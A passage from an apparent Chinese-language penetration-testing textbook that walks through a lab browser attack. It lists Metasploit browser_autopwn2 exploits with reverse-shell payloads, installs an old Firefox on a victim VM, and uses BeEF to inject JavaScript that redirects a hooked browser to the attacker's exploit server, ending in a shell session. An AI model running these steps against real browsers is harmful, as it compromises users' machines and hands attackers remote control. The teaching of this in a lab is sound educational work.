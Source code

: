 ```

-----  ----       ----                                 -------

1      Excellent  firefox_webidl_injection             firefox/shell_reverse_tcp on 4442

2      Excellent  firefox_tostring_console_injection   firefox/shell_reverse_tcp on 4442

3      Excellent  firefox_svg_plugin                   firefox/shell_reverse_tcp on 4442

4      Excellent  firefox_proto_crmfrequest            firefox/shell_reverse_tcp on 4442

5      Excellent  webview_addjavascriptinterface       android/meterpreter/reverse_tcp on 4443

6      Excellent  samsung_knox_smdm_url                android/meterpreter/reverse_tcp on 4443

7      Great      adobe_flash_worker_byte_array_uaf    windows/meterpreter/reverse_tcp on 4444
```

你应该能看到服务器的 URL ➊ 和模块将尝试的一系列漏洞 ➋。不过，许多漏洞已经过时，只能在 Firefox 27 或更早版本中工作。然而，这个模块是开源的，也许本书的某个读者会更新它，加入新的漏洞。现在，你只需在一个旧版本的 Firefox 上运行它们。使用以下命令下载并安装 Ubuntu 虚拟机上的旧版本：

```
victim@ubuntu:~$ wget ftp.mozilla.org/pub/firefox/releases/26.0/linux-x86_64/en-GB/firefox

			 -26.0.tar.bz2
tar -xjf firefox-26.0.tar.bz2
victim@ubuntu:~$ cd firefox
victim@ubuntu:~/firefox$ ./firefox
```

现在使用 BeEF 注入一些恶意 JavaScript。确保你已经通过在 Metasploitable 服务器的博客页面中注入有效负载，成功挂钩了 Ubuntu 虚拟机上的浏览器。然后，打开包含 BeEF UI 的浏览器窗口，点击与 Ubuntu 虚拟机关联的浏览器。正如本章前面所做的，选择 **Commands** 并打开 **Misc** 文件夹。点击 **Raw JavaScript** 模块。这个模块允许你将任何 JavaScript 注入到页面中。在这种情况下，我们将注入一个脚本，加载与 `browser_autopwn2` 模块关联的恶意页面：

```
window.location="http://192.168.1.113:8080/bEBTChJshPJ";
```

这个 JavaScript 命令会在用户的浏览器中打开一个标签页，并导航到恶意页面。这种方式不太隐蔽，但很有效。更微妙的方法是直接将与攻击相关的 JavaScript 注入页面中。点击**执行**并切换到运行 `browser_autopwn2` 模块的终端。如果攻击成功执行，你应该会有一个新的 Meterpreter 会话。输入 `**sessions**` 查看可用会话列表：

```
msf6 auxiliary(server/browser_autopwn2) > sessions

Active sessions

===============

  Id  Name  Type             Information  Connection

  --  ----  ----             -----------  ----------

  1         shell sparc/bsd               192.168.1.113:4442 ->

			 192.168.1.109:41938 (192.168.1.109)
```
